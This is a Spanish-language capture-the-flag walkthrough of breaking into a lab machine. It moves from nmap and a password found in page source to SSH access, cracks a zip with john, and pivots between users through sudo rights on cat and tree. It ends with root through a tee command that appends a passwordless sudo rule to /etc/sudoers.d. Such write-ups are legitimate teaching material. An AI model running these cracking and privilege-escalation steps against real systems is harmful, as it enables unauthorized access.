 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![image](https://github.com/user-attachments/assets/8332872b-8231-4713-8063-99ce0c01c9d9)

"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:

![image](https://github.com/user-attachments/assets/f944088b-07c4-44f3-ab79-afb6f5c66152)


encontré esto:

![image](https://github.com/user-attachments/assets/5af3897b-ba52-4fde-be0a-01cd25f6cc20)


dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip

![image](https://github.com/user-attachments/assets/af76f6a6-3cb2-4d7c-845b-c4e590ebb4d1)


nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash.txt
          john hash.txt

y nos da la contraseña:

![image](https://github.com/user-attachments/assets/bae5bb6f-8dd8-4cb1-b0b5-9010d2342f90)

ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash

![image](https://github.com/user-attachments/assets/f1011197-0a68-4287-ad10-2fdd0744a00f)

probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado

![image](https://github.com/user-attachments/assets/5d1dc3c7-2eed-4025-b1fa-e872ee5c2348)



con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"

![image](https://github.com/user-attachments/assets/65480878-01a8-47c0-a485-86d5116876ed)

 y somos root!.
